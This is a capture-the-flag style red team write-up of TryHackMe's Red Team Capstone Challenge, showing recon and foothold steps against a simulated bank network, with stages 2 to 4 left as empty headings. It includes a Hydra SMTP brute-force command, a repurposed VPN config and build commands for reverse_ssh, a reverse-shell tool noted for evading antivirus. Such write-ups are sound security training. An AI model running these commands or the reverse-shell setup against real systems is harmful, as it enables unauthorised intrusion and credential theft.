

# TryHackMe - Red Team Capstone Challenge

This report covers the complete compromise of the Reserve Bank of Trimento's network, as part of a red team engagement. 



The system was compromised and proof submitted via this interface, on Try Hack Me's platform: https://tryhackme.com/room/redteamcapstonechallenge

Note, that this portal will only remain accessible during the period the network is made available for non-business users on the Try Hack Me platform.

## Objectives

The objective was to penetrate the corporate network, use that to access the banking network, then finally access the internal Swift banking interface and demonstrate impact via authorising a transaction between two accounts.

By doing this, The Reserve will be able to find further issues in their perimeter, and perhaps make informed decisions like separating the corporate network from their banking network for improved security.

## Overview of the attack path taken

The consultant was able to compromise the perimeter of the corporate network by:

- Using a list of usernames and a password policy against an SMTP server, to brute force some valid active directory credentials
- Finding and adapting a corporate VPN file in order to connect to internal work stations
- Enumerating the domain for kerberoastable service accounts, and brute forcing one found to get a service account and password
- Using the expanded rights of the service account to dump secrets from one of the CORP server machines, and finding the password of a different service account with dc sync rights
- Performing a dc sync and getting all user account hashes of the CORP domain, thus being able to propagate to domain admin on the CORPDC domain controller
- Forging a so-called golden ticket with the enterprise admin group SID in order to gain access to the parent THERESERVE root domain as an enterprise admin
- Using enterprise admin rights to log into the BANKDC domain controller in the BANK domain as an admin
- Creating a domain admin in this domain that allowed access to the JMP server with access to the swift.bank.thereserve.loc website
- Performing a dc sync against the BANK domain in order to get hashes of various users, cracking these as needed in order to find saved credentials for Capturer and Approver Swift accounts
- Using this collection of access to create, verify, capture and approve a transaction between two accounts

It is known there are other ways into and around the network, but as this is a red team exercise and not a penetration test, this documentation focuses on the primary path of compromise.

## Tooling

A collection of common tools was used during this engagement.

- [Nmap](https://nmap.org/) and [Rustscan](https://github.com/RustScan/RustScan) were used for initial perimeter machine recon, finding the common web ports and SSH as well as the common windows ports and smtp ports of the mail server
- [FFuF](https://github.com/ffuf/ffuf) was used to enumerate the web interfaces, finding subdirectories like the images directory on one of the sites that had files with apparent usernames, and the location of the ovpn file
- [Burp Suite Professional](https://portswigger.net/burp) was used to access the mail server interface, which was running roundmail and could be accessed from the hostname mail.thereserve.loc
- [Mentalist](https://github.com/sc0tfree/mentalist) was used to generate a password list using the password policy revealed to the consultant
- [THC-Hydra](https://github.com/vanhauser-thc/thc-hydra) was used to brute force the usernames with the password list against SMTP, to get two valid credentials from the Help Desk group
- [OpenVPN](https://openvpn.net/) was used with the discovered ovpn file to gain access to the workstations
- [Remmina](https://remmina.org/) was used to remote onto these workstations
- The [Impacket](https://github.com/fortra/impacket) toolset was used to get the service account SPNs, to perform dc syncs and to dump credentials from registry hives
- [Hashcat](https://hashcat.net/hashcat/) was used to crack hashes as needed
- A tool called **reverse_ssh** (more notes on this below) was used to create secure reverse shells, and to facilitate port forwarding and proxies
- [proxychains](https://github.com/haad/proxychains) was used to run commands over established socks proxies
- [evil-winrm](https://github.com/Hackplayers/evil-winrm) was used in some cases to establish temporary shells on machines via user hashes, and to upload/download files
- [mimikatz](https://github.com/ParrotSec/mimikatz) was used to craft a golden ticket for access to the RootDC
- [PsExec](https://learn.microsoft.com/en-us/sysinternals/downloads/psexec) was used to gain access to the RootDC with the golden ticket


On top of these custom tools, from the windows machines themselves `reg` was used to save registry hives, **PowerShell** was used to do some AD enumeration and to generally run commands, and **Google Chrome** was used later in the engagement to access the Swift interface - notably Chrome had saved credentials for several Approver users which provided access as that role.

### Reverse_SSH

This tool is considerably less well known than the others, being built by a former colleague of the consultant. It is written in Go, and generally evades AntiVirus detection by things such as Defender, making it a useful way to access a network without having to worry about evasion: https://github.com/NHAS/reverse_ssh

The basic premise of the tool is that:

- you start a server on your attack box
- on a target, you upload a client binary via whatever means and run it with an argument pointing back at the server

This will create a 'client connection', with a long guid as an ID that doubles as a server host key. At this point, via using the server as a jumphost, the target can be connected to over normal SSH. E.g. if the server is running locally at port :3232, and the target's ID is something like `[LONGID]`, then a SSH connection can be established to the target via `ssh -J localhost:3232 [LONGID]`. This works even if the target is not running SSH, as reverse_ssh implements fully the SSH protocol this means you can also use SCP with it for copying files, -D to create socks proxies, -R for remote port forwarding etc.

In this environment, not only was this used to create stable reverse shells on the foothold machines, but by remote forwarding the server port and uploading the client deeper in the network, increasingly stretched connections could be made from the inner segregated systems all the way back to the attack box. Then by establishing proxies via `-D 9050` to different targets, access to for example the swift interface from the attack box was possible.

In this fashion, reverse_ssh served as a sort of micro C2 framework.

To set up reverse_ssh from the Try Hack Me attack box, the following commands were run:

1. A private key was generated with `ssh-keygen -t ed25519 -P "" -f "/root/.ssh/id_ed25519" > /dev/null`
2. The local version of Go was updated with `wget -q https://go.dev/dl/go1.18.linux-amd64.tar.gz && rm -rf /usr/local/go && tar -C /usr/local -xzf go1.18.linux-amd64.tar.gz && rm go1.18.linux-amd64.tar.gz`
3. When later in the lab a VPN connection beyond the perimeter was established, the server was setup with:

  ```
  git clone https://github.com/NHAS/reverse_ssh
  cd reverse_ssh
  git checkout unstable
  RSSH_HOMESERVER=[VPN_LOCAL_IP]:443 make
  cd bin/
  cp ~/.ssh/id_ed25519.pub authorized_keys
  cp client* ~/
  ./server --external_address [VPN_LOCAL_IP]:443 :443 &
  ```
  
With the above, this sets up the server to listen on the VPN's local IP, port 443 (which is less likely to be blocked by firewalls, though that wasn't universally the case here). Additionally, the client binaries (a windows `client.exe` and a linux `client`) were copied to the home directory of the current user, ready to be uploaded to targets.

## Stage 1: OSINT of the external interfaces, and getting a foothold

On top of the access to the network, a `password_base_list.txt` and `password_policy.txt` were provided. The policy stated:

```text
The password policy for TheReserve is the following:

* At least 8 characters long
* At least 1 number
* At least 1 special character
```

While the base list was a short set of strings like TheReserve, Reserve, Password etc. Additionally, the client provided guidance that only the following special characters are permitted: `!@#$%^`.

### Initial scanning & fingerprinting

Enumerating the subnet of 10.200.116.0/24 using NMap (nmap -sn 10.200.116.0/24) discovered four live machines:

- 10.200.116.250, the e-citizen portal which was out of scope for the engagement
- 10.200.116.11 which appeared to be a windows machine, labeled WebMail in the initial network map provided
- 10.200.116.12, a linux machine labeled VPN
- 10.200.116.13, another linux machine labeled WEB

For .11, .12 and .13, a Rustscan was performed. This was done using a dockerised version of rustscan: `docker run -it --rm --name rustscan rustscan/rustscan:latest -a [IP] -- -A`. In brief, this command will perform a rustscan to find open ports which is quick, then perform a `nmap -A -p [ports] [IP]` for each target. `-A` performs a large set of checks.

This identified that the WEB and VPN machines had both ports 22 and 80 open, with the VPN additionally having 1194 (the commonly used OpenVPN port). For the WebMail machine, the standard windows ports were open (SMB, RPC etc) but in addition there was a web interface on 80 and SMTP specific ports like 25.

### WebMail overview

The web interface on this box showed the IIS default page. However, the nmap -A had revealed this machine referred to itself as `mail.thereserve.loc`; by setting that as the hostname, a 404 not found was reported instead once navigating to port 80. Doing a ffuf scan with `ffuf -u http://10.200.116.11/FUZZ -H "Host: mail.thereserve.loc" -w dirwordlist.txt -x .php` where dirwordlist is basically [directory-list-2.3-medium.txt from SecLists](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/directory-list-2.3-medium.txt) revealed some subdirectories, but most importantly Index.php which when browsed to found an instance of [RoundCube WebMail](https://roundcube.net/) running. This was used to communicate further with The Reserve's security team later in the exercise.

### VPN overview

The landing page for the website asks for a username and password. As the consultant had neither, they performed a ffuf scan with  `ffuf -u http://10.200.116.12/FUZZ -w dirwordlist.txt`. This revealed `/vpn` and `/vpns` folders. Under the former was a file listing, containing the single file `corpUsername.ovpn` which when downloaded, seemed largely valid except for some invalid IP addresses. No further enumeration was performed on this server.

### WEB overview

The website on .13 would redirect to `/October/Index.php`, revealing a customised demo instance of the [October CMS](https://octobercms.com/). The version installed appeared to be 1.6, and there were no known exploits (at least unauthenticated) for this version that the consultant could find. The content of the site was largely innocuous, accept a 'meet the team' page which included numerous named employees from The Reserve. These employees were presented with photos, and the photos were named in the format 'firstname.lastname'. Assuming this might be their genuine usernames, these image names were copied into a wordlist.

### Combining the pieces to gain a foothold.

With a set of usernames and an approach to generate passwords, step 1 was trying to find some valid credentials. To create the word list, the tool [Mentalist](https://github.com/sc0tfree/mentalist) was used: this is an application that allows you to construct a formula for generating passwords, and then will create a wordlist from your options. The password base list was added, then an 'Append' rule adding the numbers 0-9, then finally another append rule with the valid special characters. After clicking process and saving the wordlist, the final password set was only 720 lines long.

The only web interface that would be easy to brute force was the VPN portal, but this resulted in no hits. However, the tool used for brute forcing [THC-Hydra](https://github.com/vanhauser-thc/thc-hydra) is capable of attacking a number of protocols, including SMTP which was available on the WebMail server: `hydra -L usernames.txt -P passwords.txt smtp://10.200.116.11`. This fairly quickly resulted in two hits:

```
[25][smtp] host: 10.200.116.11   login: laura.wood@corp.thereserve.loc   password: [REDACTED]
[25][smtp] host: 10.200.116.11   login: mohammad.ahmed@corp.thereserve.loc   password: [REDACTED]
```

These could be used to log in as these users in WebMail, but they had no emails or contacts to further exploit.

Next, the corpUsername.ovpn file was downloaded from the VPN server. Opening this file, the one line that needs to be changed is `remote 10.200.X.X 1194`, which was updated to read `remote 10.200.116.12 1194`. When run with `openvpn corpUsername.ovpn &` a connection was made, informing the consultant that a link had been made to machines .21 and .22 inside the perimeter. To access these machines more easily, routing rules were added with `ip route add 10.200.116.21 dev tun0` and `ip route add 10.200.116.22 dev tun0`.

These new machines did not respond to pings, but a quick scan with `nmap -Pn 10.200.116.21-22` revealed they had a very limited number of windows ports available, including `3389` for the remote desktop protocol.

Using Remmina, the consultant connected to the first machine, passing `mohammad.ahmed@corp.thereserve.loc` and that employee's password as the credentials. This, after a short pause, opened up a remote desktop session on the WRK1 system, proving a compromise beyond the perimeter.

## Stage 2: Compromising the CORP Domain

## Stage 3: Compromising the Forest via the Root DC

## Stage 4: Access to the Swift system and demonstrating impact

## Summary & Recommendations

Overall, the network's largest failing were weak password policies. Via a small list of about 720 options, it was possible to brute force two initial points of access. Then via bruteforcing another weak password in a service principle, admin access to the non-dc machines in the CORP network was obtained. Everything that followed in the compromise stemmed from this original path of attack.

A second, arguably as serious issue were multiple weaknesses on the perimeter systems, including the ability to brute force user account passwords via the SMTP server without any lockout or degraded performance protection.

In addition to fully segregating the banking network from the internet, by removing it from the forest that contains the corporate network, the consultant recommends that passwords be fully random and not based on a small set of word options and rules. Users should all have passwords at least 14 characters long (with or without complexity), randomly generated using a secure random algorithm, and stored in each user's password manager.

Beyond password policy, the only other significant failing was that the Approver users of the swift system had saved their credentials in their browsers. By gaining access to their workstations, these passwords could be recovered from Chrome without effort. Again, keeping the password long and in a password manager would be a more secure approach.
